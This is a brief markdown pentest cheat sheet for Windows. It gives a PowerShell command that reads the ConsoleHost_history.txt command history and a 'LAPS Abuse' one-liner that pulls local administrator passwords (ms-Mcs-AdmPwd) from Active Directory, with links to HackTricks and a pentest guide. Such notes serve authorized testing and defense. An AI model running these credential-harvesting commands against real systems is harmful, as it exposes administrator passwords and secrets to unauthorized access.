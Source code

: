 # Windows
## Powershell enumeration
```ps1
## Powershell history file
 cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\
 type .\ConsoleHost_history.txt
 ```
## LAPS Abuse
```powershell
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps
